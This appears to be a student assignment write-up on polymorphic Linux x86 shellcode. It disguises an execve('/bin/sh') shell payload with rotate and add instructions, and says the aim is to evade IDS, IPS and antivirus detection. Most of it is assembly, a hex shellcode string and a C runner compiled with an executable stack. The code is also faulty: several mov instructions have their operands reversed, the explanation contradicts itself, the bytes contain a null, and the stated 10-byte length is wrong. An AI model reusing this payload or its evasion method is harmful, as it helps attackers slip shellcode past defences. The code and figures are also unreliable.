 # Assignment-VI - Polymorphic Shellcode

Introduction
Polymorphism is the ability of an object to take on many forms. For pushing the value 0x6e69622f(nib/) into the stack will alert the IPS/AV. Instead we can go around the clock and push the dword 0x6e69622e and add a corresponding 0x00000001 so that it will be hard for the IDS/IPS/AV to detect the code for any possible execves.


### Challenge 1 : Analyzing Linux x86 execve("/bin/sh") - 28 bytes
http://shell-storm.org/shellcode/files/shellcode-811.php

This is an execve("/bin/sh") of 28 byte. Let's check the assembly code.

```
08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80
 ```
 
 So the modified code looks as follows :

 ```
global _start

section .text

_start:

xor    eax, eax      ; zero our eax
push   eax

; push   0x68732f2f

mov eax, 0xd0e65e5e
ror eax, 1                       ; shift the register by 1 ro right
push eax

; push   0x6e69622f
add eax, 0x5f63300               ; add 5f63300 to eax register to push 6e69622f                                       
push eax

mov    esp,ebx
mov    eax,ecx
mov    eax,edx
mov    al,0xb
int    0x80

; End section for exit call
xor    eax,eax
inc    eax
int    0x80
 ```
 
 Here I have done two few changes to the code : 
 
 1) The eax register for both 0x68732f2f is first brought to it's original form by first ROR the register by left.
 2) For this research, I have used bit shift calculator and shifted the accumulator by 1.
 3) Use the same method, I have added ror by 1 to shift the register back to it's original form to perform execve.
 4) Next, I have added 5f63300 to the accumulated eax to achieve 6e69622f instead of directly pushing it to the register.
 
 Compile the code using the "./compile.sh execve-modified".
 
 Use the following objdump to retrieve the shellcode of the nasm file.
  ```
 objdump -d ./execve-modified|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
  ```
  
shellcode : "\x31\xc0\x50\xb8\x5e\x5e\xe6\xd0\xd1\xc8\x50\x05\x00\x33\xf6\x05\x50\x89\xdc\x89\xc8\x89\xd0\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

Now copy the obtained shellcode and provide it in the shellcode.c 
 ```
 #include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x50\xb8\x5e\x5e\xe6\xd0\xd1\xc8\x50\x05\x00\x33\xf6\x05\x50\x89\xdc\x89\xc8\x89\xd0\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

int main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
  ```

Compiling the shellcode using -z execstack ( gcc -fno-stack-protector -z execstack ) and running the shellcode file, 
the size is : 10 bytes
